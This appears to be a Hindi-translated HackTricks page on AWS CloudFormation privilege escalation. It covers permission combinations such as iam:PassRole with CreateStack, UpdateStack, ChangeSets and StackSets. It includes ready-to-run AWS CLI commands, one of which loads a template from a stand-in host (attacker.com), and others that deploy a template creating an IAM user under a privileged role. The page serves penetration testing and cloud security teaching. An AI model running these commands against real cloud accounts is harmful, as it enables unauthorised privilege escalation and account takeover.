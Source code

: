 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

cloudformation के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

इन अनुमतियों के साथ एक हमलावर **privileges को बढ़ा सकता है** एक **CloudFormation stack** को एक कस्टम टेम्पलेट के साथ तैयार करके, जो उनके सर्वर पर होस्ट किया गया है, ताकि **निर्धारित भूमिका के अनुमतियों के तहत क्रियाएँ निष्पादित की जा सकें:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
इस पृष्ठ पर आपके पास एक **शोषण उदाहरण** है जिसमें अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** है:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**संभावित प्रभाव:** निर्दिष्ट क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप एक **मौजूदा क्लाउडफॉर्मेशन स्टैक** का दुरुपयोग कर सकते हैं ताकि इसे अपडेट किया जा सके और पिछले परिदृश्य की तरह विशेषाधिकार बढ़ाए जा सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं है**, तो आप अभी भी **उपयोग किए गए स्टैक्स को अपडेट कर सकते हैं** और **IAM भूमिकाओं का दुरुपयोग कर सकते हैं जो पहले से जुड़ी हुई हैं**। शोषण उदाहरण के लिए पिछले अनुभाग की जांच करें (बस अपडेट में कोई भूमिका न बताएं)।

`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क जो पहले से जुड़ी हुई है।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास **भूमिका पास करने और एक ChangeSet बनाने और निष्पादित करने की अनुमति है** वह **एक नया क्लाउडफॉर्मेशन स्टैक बना/अपडेट कर सकता है और क्लाउडफॉर्मेशन सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित शोषण **CreateStack एक**[ **का एक भिन्नता है**](./#iam-passrole-cloudformation-createstack) जो **ChangeSet अनुमतियों** का उपयोग करके एक स्टैक बनाने के लिए है।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `ChangeSet` अनुमतियाँ देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं के लिए प्रिवेस्क।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछले तरीके की तरह है बिना **IAM भूमिकाएँ** पास किए, इसलिए आप बस **पहले से जुड़े हुए का दुरुपयोग** कर सकते हैं, बस पैरामीटर को संशोधित करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** पहले से जुड़े क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग करके स्टैकसेट बनाने/अपडेट करने के लिए दुरुपयोग कर सकता है ताकि मनमाने क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग किया जा सके।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं के लिए प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग बिना passRole अनुमति के स्टैकसेट को अपडेट करने के लिए कर सकता है ताकि जुड़े क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग किया जा सके।

**संभावित प्रभाव:** जुड़े क्लाउडफॉर्मेशन भूमिकाओं के लिए प्रिवेस्क।

## संदर्भ

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
